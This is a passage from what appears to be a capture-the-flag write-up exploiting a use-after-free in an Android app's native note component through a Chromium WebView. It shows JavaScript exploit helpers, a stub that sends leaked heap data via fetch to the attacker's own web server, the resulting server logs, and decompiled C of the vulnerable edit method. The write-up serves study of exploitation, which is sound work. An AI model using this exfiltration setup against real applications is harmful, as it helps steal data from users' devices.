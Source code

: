 Also, we'll probably need some helper functions for PWNing:
```JavaScript
// Secret debugging technique
function sleep(s) {
  const ms = 1000 * s
  const start = Date.now();
  while (Date.now() - start < ms) {}
}

function hex(x) {
  console.log("0x"+x.toString(16));
}

// Convert BigInt to Array that we can pass to add/edit
function pack(num) {

 const result = new Array(8);

  for (let i = 0; i < 8; i++) {
    result[i] = Number(num & 0xFFn);
    num >>= 8n;
  }

  return result;
}
```

Another thing we need to consider is how we will transfer the leaked data back to us. The simplest idea is to use the same web server we used for hosting the URL. Thus, we can do the following:
```JavaScript
function exploit()
{
  console.log("exploit");
  let leak = "leaked";
  // TODO: leak heap
  fetch("/" + leak);
}

exploit();
```

After running it we'll see the following in the application logs:
```
... chromium: [INFO:CONSOLE(128)] "exploit" ...
```
And in the web server logs:
```
172.29.40.192 - - [11/Jun/2025 00:15:29] "GET /exploit.html HTTP/1.1" 200 -
172.29.40.192 - - [11/Jun/2025 00:15:29] code 404, message File not found
172.29.40.192 - - [11/Jun/2025 00:15:29] "GET /leaked HTTP/1.1" 404 -
```
And the last thing we need to think about before we get to the use-after-free exploitation is the restriction we have for writing. What do I mean? Let’s go back to the decompiled code of the `edit` method again:
```c
      v7 = (const char *)(*(__int64 (__fastcall **)(__int64, const char *, _QWORD))(*(_QWORD *)some_java_shit + 1472LL))(
                           some_java_shit,
                           new_note_obj,
                           0LL);
      v8 = (void *)noteBook[note_id];
      v9 = strlen(v7);
      memcpy(v8, v7, v9);
```